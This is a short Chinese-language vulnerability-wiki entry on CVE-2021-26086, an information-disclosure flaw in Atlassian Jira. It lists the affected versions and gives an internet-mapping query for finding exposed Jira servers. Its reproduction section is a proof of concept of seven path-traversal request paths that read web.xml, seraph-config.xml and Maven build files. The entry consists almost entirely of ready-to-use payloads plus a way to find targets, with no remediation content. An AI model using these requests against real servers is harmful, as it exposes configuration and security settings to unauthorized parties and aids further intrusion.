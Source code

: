 # Atlassian Jira 敏感信息泄露 CVE-2021-26086

# Atlassian Jira 敏感信息泄露 CVE-2021-26086

## 漏洞描述

JIRA是Atlassian公司出品的项目与事务跟踪工具，被广泛应用于缺陷跟踪、客户服务、需求收集、流程审批、任务跟踪、项目跟踪和敏捷管理等工作领域。

参考链接：

- https://jira.atlassian.com/browse/JRASERVER-72695

## 漏洞影响

```
version < 8.5.14
8.6.0 ≤ version < 8.13.6
8.14.0 ≤ version < 8.16.1
```

## 网络测绘

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

poc：

```
/s/cfx/_/;/WEB-INF/web.xml
/s/cfx/_/;/WEB-INF/decorators.xml
/s/cfx/_/;/WEB-INF/classes/seraph-config.xml
/s/cfx/_/;/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties
/s/cfx/_/;/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
/s/cfx/_/;/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
/s/cfx/_/;/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties
```



